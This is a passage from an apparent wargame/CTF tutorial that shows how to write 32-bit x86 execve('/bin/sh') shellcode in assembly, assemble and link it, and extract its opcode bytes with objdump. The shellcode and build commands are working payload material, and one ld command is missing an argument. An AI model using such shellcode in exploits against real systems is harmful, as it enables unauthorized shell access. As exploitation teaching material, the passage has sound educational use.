### Writing the Shellcode in Assembly

Now we are able to reproduce the code in Assembly. This is important: Stripe's machine was 32-bit, and the Assembly instructions are different from 64-bit (for instance, check the 64-bit shellcode I showed [here](http://singularity.miavonsteinkirch.com/smashing-the-stack-for-fun-or-wargames-narnia-0-4.html)).

With an **l** added to the words, the above shellcode in 32-bit machines is:

```
.text
.globl _start

_start:
 xorl %eax, %eax /* make eax equal to 0*/
 pushl %eax /* pushes null*/
 pushl $0x68732f2f /* push //sh */
 pushl $0x6e69622f /* push /bin */
 movl %esp, %ebx /* store /bin/sh */
 pushl %eax /* use null*/
 pushl %ebx /* use /bin/sh*/
 movl %esp, %ecx /* wrutes array */
 xorl %edx, %edx /* xor to make edx equal to 0 */
 movb $0xb, %al /* execve system call #11 */
 int $0x80 /* make an interrupt */
```

To assemble and link this in a 32-bit machine, we do:

```
$ as -o shell.o shell.s
$ ld -m -o shell shell.o
```

In a 64-but machine, we do:

1. Add **.code32** in the top of the Assembly code.
2. Assemble with the **--32 flag**.
3. Link with the **-m elf_i386** flag.

Resulting in:

```
$ as --32 -o shell.o shell.s
$ ld -m elf_i386 -o shell shell.o
```

Now, the last step is to get the executable **shell** in hexadecimal so we have the instructions for the shellcode. We use **objdump**:

```
$ objdump -d shell
shell: file format elf32-i386
Disassembly of section .text:
08048054 <_start>:
 8048054: 31 c0 xor %eax,%eax
 8048056: 50 push %eax
 8048057: 68 2f 2f 73 68 push $0x68732f2f
 804805c: 68 2f 62 69 6e push $0x6e69622f
 8048061: 89 e3 mov %esp,%ebx
 8048063: 50 push %eax
 8048064: 53 push %ebx
 8048065: 89 e1 mov %esp,%ecx
 8048067: 31 d2 xor %edx,%edx
 8048069: b0 0b mov $0xb,%al
 804806b: cd 80 int $0x80
```
